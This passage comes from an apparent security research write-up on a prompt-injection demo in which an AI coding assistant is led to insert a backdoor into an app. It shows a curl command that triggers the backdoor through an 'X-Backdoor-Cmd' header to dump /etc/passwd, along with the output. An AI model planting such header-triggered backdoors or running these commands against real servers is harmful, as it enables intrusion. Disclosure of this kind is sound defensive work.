 After the maintainer accepts the pull request, the app will contain the backdoor code. Once the new version of the app is deployed, the attacker can send backdoor commands via the `X-Backdoor-Cmd` HTTP header.

To demonstrate the backdoor, below we use `curl` to send a request that dumps `/etc/passwd` from the server:

```shell
$ curl -H 'X-Backdoor-Cmd: cat /etc/passwd' http://localhost:8000
nobody:*:-2:-2:Unprivileged User:/var/empty:/usr/bin/false
root:*:0:0:System Administrator:/var/root:/bin/sh
daemon:*:1:1:System Services:/var/root:/usr/bin/false
_uucp:*:4:4:Unix to Unix Copy Protocol:/var/spool/uucp:/usr/sbin/uucico
_taskgated:*:13:13:Task Gate Daemon:/var/empty:/usr/bin/false
_networkd:*:24:24:Network Services:/var/networkd:/usr/bin/false
...
```

Figure 11: A successful use of the injected backdoor

See the [trailofbits/copilot-prompt-injection-demo](https://github.com/trailofbits/copilot-prompt-injection-demo) GitHub repository, including issues and pull requests, for the full attack demonstration.
